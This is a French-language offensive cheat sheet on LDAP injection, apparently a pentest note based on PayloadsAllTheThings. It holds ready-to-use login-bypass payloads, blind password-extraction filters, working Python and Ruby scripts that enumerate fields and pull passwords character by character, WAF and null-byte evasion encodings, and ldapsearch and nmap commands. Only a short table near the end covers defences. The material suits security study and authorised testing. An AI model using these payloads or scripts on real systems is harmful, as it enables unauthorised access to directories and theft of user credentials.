

# LDAP Injection

> [!info] **En 1 phrase**
> LDAP Injection = injecter des **opérateurs LDAP** (parenthèses, `&`, `|`, `!`, `*`) dans une
> entrée utilisateur mal filtrée → **bypass d'authentification**, énumération d'attributs,
> extraction **blinde** de données dans l'annuaire.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> L'app concatène l'entrée brute dans un filtre LDAP (`(&(uid=$user)(userPassword=$pass))`).
> En injectant **parenthèses et opérateurs**, on "sort" du contexte prévu et on **réécrit
> la logique** du filtre.

---

## Rappel : syntaxe LDAP

Un filtre LDAP est une chaîne entre parenthèses combinant **attribut**, **opérateur** et **valeur** :

| Élément | Syntaxe | Signification |
|---|---|---|
| Égalité | `(uid=admin)` | attribut `uid` vaut `admin` |
| AND | `(&(uid=admin)(status=1))` | **toutes** les conditions vraies |
| OR | `(\|(uid=admin)(cn=admin))` | **au moins une** condition vraie |
| NOT | `(!(uid=admin))` | négation |
| Wildcard | `(uid=a*)` | préfixe : valeur commençant par `a` |
| Wildcard | `(uid=*)` | attribut **présent** (test d'existence) |
| Présence | `(objectClass=*)` | tout objet → filtre toujours vrai |

```ldap
# Filtre d'authentification typique
(&(uid=admin)(userPassword=mdp))
```

> [!warning] **Règle d'or** : la **syntaxe des filtres est le cœur de la vulnérabilité**.
> Une parenthèse fermante `)` ou une étoile `*` suffisent à casser la structure.

### Quand ça s'applique

- **Authentification** (formulaires de login LDAP, SSO legacy)
- **Recherche d'utilisateurs** (annuaires d'entreprise, "répertoire" web)
- **Portails** filtrant par rôle/département (filtres `memberOf`, `department`)
- Tout champ dont la valeur finit dans un `(&(...)(...))` ou une recherche

---

## Bypass d'authentification

Principe : injecter une condition **toujours vraie** qui neutralise le check du mot de passe.

### Payloads de base

```txt
*            → (uid=*)            → matche le 1er utilisateur
*)(&         → ferme le filtre, en ouvre un vide
*)(uid=*     → (uid=*)(uid=*)     → toujours vrai
)(&          → modifie l'opérateur racine
```

### Payloads complets (à injecter dans le champ login)

```ldap
# Cas 1 : filtre (&(uid=LOGIN)(userPassword=PASS))
# Login injecté :  *)(uid=*))(|(uid=*
# → (&(uid=*)(uid=*))(|(uid=*)(userPassword=PASS))
#    └────── vrai ──────┘  → bypass total
login = *)(uid=*))(|(uid=*

# Cas 2 : login = admin)(&  (avec pass vide ou neutralisée)
# → (&(uid=admin)(&)(userPassword=PASS))
#              └─&─┘ → vrai (pas de condition)
login = admin)(&)

# Cas 3 : loggé en "admin" si le compte existe
# → (&(uid=admin)(uid=*))...
login = admin)(uid=*

# Cas 4 : OR toujours vrai dans le sous-filtre
# → (&(uid=*)(uid=*))...
login = *)(uid=*)
login = *)(|(uid=*)(uid=*)

# Cas 5 : neutraliser la fin de requête (si le serveur tolère un filtre mal fermé)
# → (&(uid=*)(uid=*))|(uid=*
login = *)(uid=*))|(uid=*
```

> [!tip] **Astuce** : tester d'abord `*` seul dans le login. Si la réponse diffère
> (page admin, autre message), la connexion passe par un filtre LDAP **injectable**.

---

## Blind LDAP Injection

Quand la réponse ne montre pas les résultats directement (login OK/KO, page 404/200),
on extrait des données **caractère par caractère** avec des oracles booléens.

### Extraction par booléen (recherche de mot de passe)

```ldap
(&(sn=administrator)(password=*))    → OK  → l'attribut password existe
(&(sn=administrator)(password=A*))   → KO  → ne commence pas par A
(&(sn=administrator)(password=B*))   → KO
...
(&(sn=administrator)(password=M*))   → OK  → 1er caractère = M
(&(sn=administrator)(password=MA*))  → KO
...
(&(sn=administrator)(password=MY*))  → OK
(&(sn=administrator)(password=MYKE)) → OK  → mot de passe complet
```

### Extraction par timing

```ldap
# Chercher via un enchaînement qui déclenche une erreur (time oracle)
# ou utiliser des requêtes lourdes / latence différenciée
(&(sn=admin)(!(cn=*))(|(sn=admin)(uid=TARGET)))
# L'app répond différemment si le filtre est vrai vs faux → oracle booléen
```

### Caractères à connaître (alphabets de test)

```txt
ascii_letters + digits + ponctuation :
_ @ { } - / ( ) ! " $ % = ^ [ ] : ;
# + éventuellement espaces et * (attention au wildcard)
```

> [!warning] **Piège du wildcard en blind** : tester le caractère `*` dans une position
> peut rendre le test **toujours vrai** (il devient un joker). Le retirer de l'alphabet ou
> l'encoder en `%2a` quand c'est possible.

---

## Information disclosure

### Attributs intéressants

Liste des attributs LDAP courants exploitables en `*)(ATTRIBUTE=*` (test d'existence) :

```bash
userPassword        # le plus juteux (hash {MD5}, {SSHA}, clair...)
uid                 # identifiant de connexion
cn / sn / name      # nom commun / nom de famille / nom
givenName           # prénom
commonName          # alias de cn
mail                # email
surname             # = sn
objectClass         # structure de l'objet
member / memberOf   # appartenance à des groupes (privesc potentielle)
description         # souvent rempli de mots de passe/notes !
department          # département
telephoneNumber     # téléphone
```

### Tester l'existence d'un attribut

```ldap
# Sur un paramètre de recherche injecté :
*) (cn=*) )  → présente ? réponse normale
*) (mail=*) ) → présente ?
*) (userPassword=*) ) → présente ? → attribut exploitable !
```

### Wildcards et recherches fuzzées

```ldap
(uid=*admin*)    → contient "admin"   (préfixe + suffixe)
(uid=a*)         → commence par a
(uid=*)          → tous les utilisateurs
(cn=*)           → tout ce qui a un cn → dump par dichotomie
```

### Script Python de découverte de champs valides

```python
#!/usr/bin/python3
import requests

fields = []
url = 'https://URL.com/'
wordlist = open('dic', 'r').read().split('\n')

for i in wordlist:
    # Like : (&(login=*)(CHAMP=*))\x00)(password=bla))
    r = requests.post(url, data={'login': '*)(' + str(i) + '=*))\x00', 'password': 'bla'})
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

### Script Python de blind extraction

```python
#!/usr/bin/python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print(f"[i] Looking for number {i}")
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if "TRUE CONDITION" in r.text:
            flag += char
            print(f"[+] Flag: {flag}")
            break
```

### Variante Ruby (script de @noraj)

```ruby
#!/usr/bin/env ruby
require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')
flag = ''
(0..50).each do |i|
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts "[+] Flag: #{flag}"
      break
    end
  end
end
```

---

## Bypass de filtres (WAF / validation)

### Encodages

```txt
*          → %2a                 → URL-encodé (décodeur WAF)
(          → %28  ou  %2528      → double encodage
)          → %29  ou  %2529
&          → %26  ou  %2526
|          → %7C
!          → %21
'          → %27
#          → %23
```

```txt
# Si le filtre ne matche que le login seul, injecter dans un autre champ
# (email, CN, description...) → injection "second order" LDAP.
```

### Caractères interdits & null byte

```txt
\00  (null byte)    → termine la chaîne côté C → permet de "couper" le filtre
                      Exemple : admin\00 → (&(uid=admin\00)(...)) → check tronqué
# Null byte souvent filtré en entrée → essayer %00, \x00, URL-encoded.
```

### Casse & normalisation

```txt
LDAP (RFC 4515) ignore la casse des mots-clés :  (UID=*) = (uid=*)
→ alterner la casse pour contourner des règles regex simples :
  (&(uID=*)(uSeRpAsSwOrD=*))  vs  (?i:userPassword)
```

### Délimiteurs alternatifs

```txt
,  ;  =  parenthèses imbriquées  %0a %0d (CRLF)
→ tester aussi les variantes de closing :  )  ))  )))  )*  ))(&
```

---

## Outils

```bash
# ldapsearch : recherche directe sur l'annuaire (post-auth / port ouvert 389)
ldapsearch -x -H ldap://target -b "dc=domain,dc=com" "(uid=*)" uid mail cn
ldapsearch -x -H ldap://target -b "dc=domain,dc=com" "(|(uid=admin)(cn=admin))"

# Tester l'annuaire sur le réseau
nmap -p 389 --script ldap-search target

# Blind LDAP automatisé : modifier l'URL du script Python / Ruby ci-dessus
# et fuzzer avec Burp Intruder (cluster bomb sur les positions)
```

- **Burp Intruder** : fuzzer les payloads `*`, `)(&`, `)`, `|`, `*)(uid=*` sur le champ login
- **ldapsearch / OpenLDAP utils** : vérifier manuellement les filtres injectés
- Scripts custom Python/Ruby : blind extraction caractère par caractère
- Dictionnaires d'attributs LDAP (pour le script "Discover Valid LDAP Fields")

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Échappement LDAP** | Échapper `\`, `(`, `)`, `*`, NUL (`\00`) dans toute entrée → RFC 4515 (fonction `ldap_escape`) |
| **Jamais de concaténation** | Utiliser des **bind avec paramètres** / des fonctions de recherche avec valeurs séparées du filtre |
| **Validation stricte** | Allowlist des caractères (`[a-zA-Z0-9@._-]`), longueur max, types attendus |
| **Filtre sécurisé** | Construire le filtre avec des attributs **fixes** côté serveur, entrée = simple valeur |
| **Moindre privilège** | Le compte de l'app en lecture seule, sans accès `userPassword` si possible |
| **Masquer les erreurs** | Pas de stacktrace LDAP → l'attaquant est forcé au blind (plus lent) |
| **Surveillance** | Logs des requêtes LDAP anormales (`*` en masse, `)(`, étoiles répétées), alertes sur taux d'erreurs |
| **WAF** | Règle basique, contournable (encodages ci-dessus) — ne pas s'y fier seul |

---

## Tips & Pièges

> [!tip] **La syntaxe est le cœur**
> Toute l'attaque repose sur **parenthèses + opérateurs + wildcard**. Avant de brute-forcer,
> dessine le filtre final (ce que l'app concatène) → tu sais exactement quoi fermer (`)`)
> et quoi ouvrir (`(&` / `(|`).

> [!warning] **Contexte recherche vs authentification**
> - **Recherche** : on peut souvent **extraire** des données (`(uid=a*)`, blind, attributs).
> - **Authentification** : on vise surtout le **bypass** (le résultat du bind décide du login).
> Un payload qui marche pour bypasser n'exfiltre rien, et inversement.

> [!warning] **Pièges du wildcard `*`**
> - `(uid=*)` matche **n'importe quelle valeur présente** → parfait pour le test d'existence,
>   dangereux pour la précision (l'ordre de renvoi n'est pas garanti).
> - En blind, un `*` dans la position testée peut rendre le test **toujours vrai**.
> - `%2a` vs `*` : si un WAF décode l'URL, `%2a` redevient `*` ; si une regex bloque `*`,
>   l'encodage aide.

> [!warning] **Pièges techniques**
> - `userPassword` n'est pas une chaîne mais un **OCTET STRING** : les comparaisons
>   `>`/`<` utilisent `userPassword:2.5.13.18:=\xx\xx` (matching rule octetStringOrderingMatch).
> - Le résultat d'une recherche avec `*` peut renvoyer **plusieurs entrées** : l'app ne doit
>   en prendre qu'une (sinon bypass même sans payload parfait).
> - Certains serveurs tolèrent les filtres **non fermés** → `*` seul peut suffire.
> - L'ordre d'évaluation : `(&(A)(B))` exige A **et** B ; `(|(A)(B))` suffit d'un seul.

> [!tip] **Démarche recommandée**
> 1. Identifier la requête LDAP injectée (draw le filtre final).
> 2. Bypass d'auth : `*` → `admin)(&` → `*)(uid=*` → variantes OR.
> 3. Blind : alphabet complet + oracle booléen/time, automatisé.
> 4. Information disclosure : dump des attributs (`userPassword`, `description`...).
> 5. Si l'accès réseau existe : pivoter vers `ldapsearch` direct sur le port 389/636.

---

## Liens

- [[Injection SQL| SQLi]] — même philosophie de payloads (tautologie, blind, timing)
- [[XSS (Cross-Site Scripting)| XSS]]
- [[SAML| SAML]] — l'annuaire LDAP est souvent l'IdP derrière le SAML
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — LDAP Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md)
